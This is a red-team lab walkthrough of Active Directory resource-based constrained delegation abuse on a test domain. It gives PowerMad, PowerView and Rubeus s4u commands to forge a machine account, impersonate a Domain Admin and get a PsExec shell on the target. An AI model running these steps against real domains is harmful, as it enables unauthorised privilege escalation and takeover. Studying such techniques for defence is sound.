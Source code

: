 # AD Computer Object Take Over and Privileged Code Execution

It's possible to gain code execution with elevated privileges on a computer if you have WRITE privilege on that computer's AD object.

High level overview of the attack:

* We have code execution on the box `WS02` in the context of offense\sandy user
* User sandy has `WRITE` privilege over a target computer `WS01`
* User sandy creates a new computer object `FAKE01` \(no admin required\)
* Sandy leverages `WRITE` privilege on the `WS01` computer object and updates computer object's attribute `msDS-AllowedToActOnBehalfOfOtherIdentity` to enable the newly created computer `FAKE01` to impersonate and authenticate any domain user that can then access the target system WS01. In human terms this means - the target computer `WS01` is happy for the computer resource `FAKE01` to impersonate any domain user if they want to access anything on `WS01`
* `WS01` trusts `FAKE01` \(due to the modified `msDS-AllowedToActOnBehalfOfOtherIdentity`\)
* We request kerberos tickets for `FAKE01$` with ability to impersonate `offense\spotless` who is a Domain Admin
* Profit

This lab is based on a video presented by [@wald0](https://twitter.com/_wald0?lang=en) - [https://www.youtube.com/watch?v=RUbADHcBLKg&feature=youtu.be](https://www.youtube.com/watch?v=RUbADHcBLKg&feature=youtu.be)

## Requirements

|  |  |
| :--- | :--- |
| Target computer | WS01 |
| Admins on target computer | spotless@offense.local |
| Fake computer name | FAKE01 |
| Fake computer SID | To be retrieved during attack |
| Fake computer password | 123456 |
| Windows 2012 Domain Controller | DC01 |

Since the attack will entail creating a new computer object on the domain, let's check if users are allowed to do it - by default, a domain member usually can add up to 10 computers to the domain. To check this, we can query the root domain object and look for property `ms-ds-machineaccountquota`

```csharp
Get-DomainObject -Identity "dc=offense,dc=local" -Domain offense.local
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-20-49-58.png)

The attack also requires the DC to be running at least Windows 2012, so let's check if we're in the right environment:

```csharp
Get-DomainController
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-20-56-15.png)

Last thing to check - target computer object must not have the attribute `msds-allowedtoactonbehalfofotheridentity` set:

```text
Get-NetComputer ws01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-03-32.png)

This is the attribute the above command is referring to:

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-08-47.png)

## Creating a new Computer

Let's now create a new computer object for our computer `FAKE01` \(as referenced earlier in the requirements table\) - this is the computer that will be trusted by our target computer later on:

```csharp
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-30-46.png)

Checking if the computer got created and noting its SID:

```csharp
Get-DomainComputer fake01
# computer SID: S-1-5-21-2552734371-813931464-1050690807-1154
```

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-25-11.png)

Create a new raw security descriptor for the `FAKE01` computer principal:

```csharp
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-26-41.png)

## Modifying Target Computer's AD Object

Applying the security descriptor bytes to the target `WS01` machine:

```csharp
Get-DomainComputer ws01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-38-54.png)

Reminder - we were able to write this because `offense\Sandy` belongs to security group `offense\Operations`, which has full control over the target computer `WS01$` although the only important one/enough is the `WRITE` privilege:



![](../../.gitbook/assets/screenshot-from-2019-03-26-22-40-43.png)

If our user did not have the required privileges, you could infer that from the verbose error message:

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-43-25.png)

Once the `msDS-AllowedToActOnBehalfOfOtherIdentitity` is set, it is visible here:

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-42-18.png)

Same can be seen this way:

```csharp
Get-DomainComputer ws01 -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-41-34.png)

We can test if the security descriptor assigned to computer ws01 in `msds-allowedtoactonbehalfofotheridentity` attribute refers to the fake01$ machine:

```csharp
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
```

Note that the SID is referring to S-1-5-21-2552734371-813931464-1050690807-1154 which is the `fake01$` machine's SID - exactly what we want it to be:

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-24-04.png)

## Execution

### Generating RC4 Hash

Let's generate the RC4 hash of the password we set for the `FAKE01` computer:

```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\Rubeus.exe hash /password:123456 /user:fake01 /domain:offense.local
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-46-25.png)

### Impersonation

Once we have the hash, we can now attempt to execute the attack:

```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\rubeus.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:spotless /msdsspn:cifs/ws01.offense.local /ptt
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-23-40-45.png)

Unfortunately, in my labs, I was not able to replicate the attack even though according to the output of rubeus, all the required kerberos tickets were created successfully - I could not gain remote admin on the target system `ws01`:

![](../../.gitbook/assets/screenshot-from-2019-03-26-23-40-57%20%281%29.png)

Once again, checking kerberos tickets on the system showed that I had a ticket for spotless who was a DA, but the attack still did not work:

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-01-23.png)

### Endless Erial and Error

After talking to a couple of infosec folks who had successfully simulated this attack in their labs, we still could not figure out what the issue was. After repeating the the attack over and over and carrying out various other troubleshooting steps, I finally found where the issue was.

Note how the ticket is for the SPN `cifs/ws01.offense.local` and we get access denied when attempting to access the remote admin shares of ws01:

![](../../.gitbook/assets/screenshot-from-2019-03-31-13-16-17.png)

Note, howerver if we request a ticket for SPN `cifs/ws01` \(pink\) - we can now access C$ shares of the ws01 which means we have admin rights on that system:

```csharp
\\VBOXSVR\Tools\Rubeus\Rubeus.exe s4u /user:fake01$ /domain:offense.local /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:spotless /msdsspn:http/ws01 /altservice:cifs,host /ptt
```

![](../../.gitbook/assets/screenshot-from-2019-03-31-13-31-17.png)

To further prove we have admin rights - we write a simple file from ws02 to ws01 in c:\users\administrator:

![](../../.gitbook/assets/screenshot-from-2019-03-31-13-36-35.png)

We can further check if we can remotely execute code with our noisy friend psexec:

```csharp
\\vboxsvr\tools\PsExec.exe \\ws01 cmd
```

![](../../.gitbook/assets/screenshot-from-2019-03-31-13-44-20.png)

## References

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/" %}

{% embed url="https://www.notion.so/Combining-NTLM-Relaying-and-Kerberos-delegation-8d7226ff60b7436db47279e25bd86189" %}

{% embed url="https://decoder.cloud/2019/03/20/donkeys-guide-to-resource-based-constrained-delegation-from-standard-user-to-da/" %}









